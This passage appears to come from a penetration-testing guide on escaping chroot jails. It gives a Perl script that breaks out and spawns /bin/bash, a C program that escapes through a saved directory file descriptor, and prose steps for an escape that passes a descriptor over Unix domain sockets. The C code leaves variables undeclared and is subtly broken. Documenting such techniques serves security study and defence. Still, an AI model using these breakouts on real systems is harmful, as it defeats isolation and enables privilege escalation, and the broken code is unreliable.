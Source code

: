 Perl
```
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```

### Root + Saved fd

This is similar to the previous case, but in this case the attacker stores a file descriptor to the current directory and then creates the chroot in a new folder. Finally, as he has access to that FD outside of the chroot, he access it and he escapes.

C: break_chroot.c
```
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("tmpdir", 0755);
    dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);  
    for(x = 0; x < 1000; x++) chdir("..");
    chroot(".");
}
```

### Root + Fork + UDS (Unix Domain Sockets)

FD can be passed over Unix Domain Sockets, so:

Create a child process (fork)

Create UDS so parent and child can talk

Run chroot in child process in a different folder

In parent proc, create a FD of a folder that is outside of new child proc chroot

Pass to child procc that FD using the UDS

Child process chdir to that FD, and because it's ouside of its chroot, he will escape the jail
